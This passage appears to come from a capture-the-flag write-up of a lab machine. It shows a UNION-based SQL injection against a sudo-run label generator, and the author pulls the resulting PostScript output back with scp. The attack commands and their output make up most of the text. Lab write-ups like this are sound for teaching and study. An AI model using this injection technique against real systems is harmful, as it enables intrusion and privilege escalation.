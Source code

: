 #### SQL Injection

The SQL query is:

```

SELECT name, addressLine1, addressLine2, town, postcode, Orders.id as orderId, Users.id as userId FROM Orders LEFT JOIN Users On Orders.userId = Users.id WHERE Orders.id = %s

```

I’ll give it a order that doesn’t exist (99999) and then use UNION injection to return a row of values I control:

```

neil@bookworm:~$ sudo genlabel '99999 UNION SELECT 1,2,3,4,5,6,7;'
Fetching order...
Generating PostScript file...
Generating PDF (until the printer gets fixed...)
Documents available in /tmp/tmpr7ejbvakprintgen

```

I’ll `scp` the output to my host:

```

oxdf@hacky$ scp -i ~/keys/ed25519_gen neil@bookworm.htb:/tmp/tmpr7ejbvakprintgen/* .                 
output.pdf             100%   43KB 133.5KB/s   00:00    
output.ps              100% 1751    15.6KB/s   00:00 

```

The output I set shows up in the PS file in blocks like this:

```

...[snip]...
/Courier-bold
20 selectfont
50 550 moveto
(1) show     
                                                                    
/Courier     
20 selectfont         
50 525 moveto
(2) show
                                                                    
/Courier     
20 selectfont
50 500 moveto
(3) show

/Courier
20 selectfont
50 475 moveto
(4) show      
                                                                    
/Courier    
20 selectfont 
50 450 moveto
(5) show
...[snip]...

```
